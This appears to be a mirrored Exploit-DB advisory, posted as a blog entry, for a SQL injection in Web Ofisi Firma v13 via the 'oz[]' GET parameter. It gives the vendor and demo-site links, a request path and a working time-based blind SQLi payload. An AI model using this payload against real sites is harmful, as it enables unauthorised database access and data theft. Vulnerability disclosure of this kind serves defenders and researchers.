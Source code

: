 ```yaml
---
layout:     post
title:      "Web Ofisi Firma 13 - 'oz' SQL Injection"
date:       2019-07-19 12:20
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Firma 13 - 'oz' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/kurumsal-firma-v13-sinirsiz-dil.html
# Demo Site: http://demobul.net/firmav13/
# Version: v13
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----
Request: http://localhost/[PATH]/kategori/ikinci-el-klima.html?oz[]=1_1
Vulnerable Parameters: oz[] (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z
            
